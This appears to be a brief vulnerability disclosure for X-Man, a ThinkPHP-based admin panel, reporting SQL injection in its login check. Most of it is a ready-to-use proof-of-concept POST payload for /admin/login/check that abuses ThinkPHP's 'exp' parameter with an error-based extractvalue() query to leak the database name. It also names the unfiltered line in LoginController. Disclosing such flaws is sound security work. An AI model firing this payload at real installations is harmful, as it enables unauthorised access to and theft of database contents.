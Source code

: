 X-Man is a background system developed based on the ThinkPHP framework. Due to the failure to comply with the ThinkPHP framework development standard, the SQL injection vulnerability was caused when it landed。

Poc：
http://ip/admin/login/check

POST: para=username[0]%3Dexp%26username[1]%3D=11 and(select extractvalue(1,concat(0x7e,(select database()))))%26password%3D213%26token%3D


Example：

![Image](https://user-images.githubusercontent.com/65259880/203694221-fcd95389-4b9c-497d-8b89-b98bcf781248.png)

Analyze:
file：https://github.com/imxiny/x-man/blob/master/Application/Admin/Controller/LoginController.class.php


![Image](https://user-images.githubusercontent.com/65259880/203694740-6d2af099-1bae-4343-8ee8-6ece50cfa261.png)


There is no filter of the parameter of the 60th line，So we can directly stitch SQL statements。
